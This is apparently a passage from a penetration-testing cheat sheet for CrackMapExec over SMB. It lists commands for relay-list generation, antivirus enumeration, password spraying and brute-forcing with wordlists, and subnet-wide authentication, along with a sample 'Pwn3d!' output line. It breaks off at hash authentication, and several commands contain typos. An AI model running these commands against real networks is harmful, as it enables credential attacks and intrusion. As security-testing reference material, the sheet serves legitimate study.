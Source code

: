     ```bash
    crackmapexec smb <target_ip> --gen-relay-list relaylistOutputFilename.txt
    ```
*   **Enumerate Antivirus/EDR:**

    ```bash
    crackmapexec smb <target_ip> -u <username> -p '<password>' -M enum_av
    ```
*   **Password Spraying Using Manual Username/Password Lists:**

    ```bash
    crackmapexec smb <target_ip> -u <username1> <username2> <username3> -p '<password>'
    crackmapexec smb <target_ip> -u <username> -p '<password1>' '<password2>' '<password3'
    ```
*   **Password Spraying Using External Wordlists:**

    ```bash
    crackmapexec smb <target_ip> -u <usernmame_list> -p '<password>'
    crackmapexec smb <target_ip> -u <username> -p <password_list>
    ```
*   **`--continue-on-success`:** By\*\* default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Useful for spraying a single password against a large user list.

    ```bash
    crackmapexec smb <target_ip> -u <username_list> -p '<password>' --continue-on-success
    ```
*   **Checking login == password using wordlist:**

    ```bash
    crackmapexec smb <target_ip> -u <username_list> -p <username_list>
    ```
*   **Checking multiple usernames/passwords using worlist:**

    ```bash
    crackmapexec smb <target_ip> -u <username_list> -p <password_list>
    ```
*   **Checking one login equal one password using wordlist:** No bruteforce possible with this one as 1 user = 1 password. Avoid range or a list of IP when using option `--no-bruteforce`

    ```bash
    crackmapexec smb <target_ip> -u <username_list> -p <password_list> --no-bruteforce --continue-on-succes
    ```
*   **Domain Authentication:** Failed logins result in a `[-]`; Successful logins result in a `[+] Domain\Username:Password`. Local admin access results in a (Pwn3d!) added after the login confirmation, shown below.

    ```bash
    SMB         192.168.1.101    445    HOSTNAME          [+] DOMAIN\Username:Password (Pwn3d!)
    ```
*   **Authenticate Using User/Password:** The following checks will attempt authentication to the entire /24 though a single target may also be used.

    ```bash
    crackmapexec smb <target_ip>/24 -u <username> -p '<password>'
    ```
*   **Authenticate Using User/Hash:**
